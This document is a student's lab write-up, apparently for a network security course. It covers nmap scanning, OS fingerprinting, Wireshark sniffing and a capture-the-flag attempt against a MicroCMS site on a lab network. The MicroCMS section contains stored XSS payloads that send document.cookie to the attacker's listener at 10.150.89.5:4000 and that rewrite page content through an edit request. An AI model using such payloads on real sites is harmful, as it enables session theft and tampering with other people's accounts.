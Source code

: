 # Opgaver til T3 del 1

> Brug ifconfig til at finde ud af hvilket netværk I er på, og hvilke andre maskiner der potentielt kan være på samme netværk.

Først finder jeg ip.

![Ifconfig](ifconfig.png)

Derefter laver jeg en ip scan på netwærket.
Læg mærke til ip og mask da dette skal bruges igen i nmap.

![nmap efter port](nmap1.png)

Her kan jeg se at der er nogle forskellige enheder der **svarer**.

- 10.150.89.2
- 10.150.89.3
- 10.150.89.4
- 10.150.89.5
- 10.150.89.31
- 10.150.89.41
- 10.150.89.51
- 10.150.89.108
- 10.150.89.159
- 10.150.89.164

> Brug nmap til at finde andre maskiner i netværket. Prøv forskellige typer af scanninger, og evaluer hvilke informationer I får ud af det vs. hvor lang tid det tager at gennemføre scanningerne.

Først prøves en simpel fuld portscan.

![Nmap port scan](portscan.png)

Dette tog 2.19 sekunder.

Derefter prøves en stealth scan

![Nmap stealth scan](stealth.png)

Dette tog 2.45 sekunder. 
Og giver det samme resultat som en normal portscan.

> Brug nmap til at finde ud af hvilke operativsystemer der kører på de forskellige maskiner i lab'et.

Nu prøves en OS scan hvor den kigger på finger prints.
Dette gøres med `-O`.

![Os scan](os.png)

Dette tog 7.17 sekunder.
Man kan også se at den har fundet information om hvilket OS og version modtager bruger.
Det er også sjovt at se at den ikke har kunne bestemme `10.150.89.2`.

> Find en web-server (der kun er web-server).

Her kigges i resultaterne fra den sidste scan.

![Webserver scan](webserver.png)

Nu checkes der om det faktisk er en webserver der lytter.

![Webserver test](webserver_firefox.png)

Yay.

> Al trafik i lab'et kører gennem jeres Kali-maskine. Kan I finde et ikke-krypteret login et sted i trafikken? (brug Wireshark)

Login kommer tit gennem http POST request, så det kan man prøve at sortere efter i wireshark.

![Wireshark post request filter](wireshark_post.png)

> Prøv at find flaget i MicroCMS hjemmesiden - det kræver lidt kreativitet, men ingen værktøjer

Efter at have kigget lidt på de forskellige servere blev MicroCMS hjemmesiden fundet på `10.150.89.164`.

![Microcms front page](microcms_front.png)

Det ser ud til at man kan lave sider og man kan redigere sidder.
Den mest aktive ser ud til at være `Event 1` der snakker om et møde i næste uge.

Først prøver jeg at redigere `Event 1` ved at tilføje lidt tekst.
Efter redigering er testes indsættes `hej med <b>dig</b>`.

![Microcms edit bold](microcms_bold.png)

Yay det virker, så kan man måske også indsætte billeder og javascript.
Hvis der er andre der også er på siden, hvad kan man så få ud af dem?

Url'erne til at få en side har følgende format `/page.php?view=2`.
Hvad hvis man prøver nogle af de andre tal efter 2.

![Microcms Not found](microcms_404.png)

That was expected.

![Microcms forbidden](microcmd_403.png)

What if we change `view` to `edit`?

![Microcmd url](microcms_url.png)

Okay. Can we place some javascript that will send the content of this page to a webserver?
Lets start with one that sends all cookies.

```
var x = new XMLHttpRequest; x.open("GET", "http://10.150.89.5:4000/" + document.cookie, true); x.send( null )
```

This will send a GET with the cookie in the url.
On the local kali machine a webserver is started with php -S.
This will print all request send, even if they 404.

![Mini php http server](php-server.png)

Now this javascript is placed as a script tag in the `Event 1` document.

![Microcms javascript](microcms_java.png)

After waiting a short while nothing happened.
Going to try something else.
The following will edit page 11 with some data ( in this case "hej medddd dig" ).

```
var x = new XMLHttpRequest; x.open("POST", "http://10.150.89.164/page.php?edit=11", true); var f = new FormData(); f.append("title", "testi"); f.append("content", "hej medddd dig"); x.send( f )
```

Now content is replaced by document.cookie and placed in meeting thing.

